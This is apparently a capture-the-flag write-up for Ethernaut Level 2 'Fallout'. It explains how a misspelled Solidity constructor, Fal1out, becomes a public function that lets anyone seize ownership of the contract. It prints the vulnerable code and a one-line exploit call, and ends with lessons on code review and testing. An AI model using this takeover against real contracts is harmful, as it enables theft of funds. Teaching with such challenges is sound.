 <div align="center">

<img src="../assets/levels/2-fallout.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 2 - Fallout</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif

<img src="../assets/requirements/2-fallout-requirements.webp" width="800px"/>

## The hack

Unlike a normal function that can be called anytime, a constructor is only executed once during the creation of the contract. In solidity versions before `0.8.0`, a constructor was defined by naming it the same as your contract's name.

```javascript
pragma solidity ^0.6.0;

contract Foo {
    // This is a constructor, same name as the contract
    function Foo() public payable {}

    // This is a function
    function foo() public payable {}
}
```

Unfortunately, the typo in the `Fal1out()` function converts it to a normal function instead of a constructor. Because of that, `Fal1out()` is a public function that anyone can call to take ownership of the contract.

```javascript
/* constructor */
  function Fal1out() public payable {
      owner = msg.sender;
      allocations[owner] = msg.value;
  }
```

The `Fal1out` function should have been named `Fallout`.

## Solution

1. Simply call the `Fal1out()` function to take ownership of the contract.

```javascript
await contract.Fal1out();
```

## Takeaway

- Review your code carefully and multiple times before deploying it
- Use tests to catch obvious bugs like this one.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
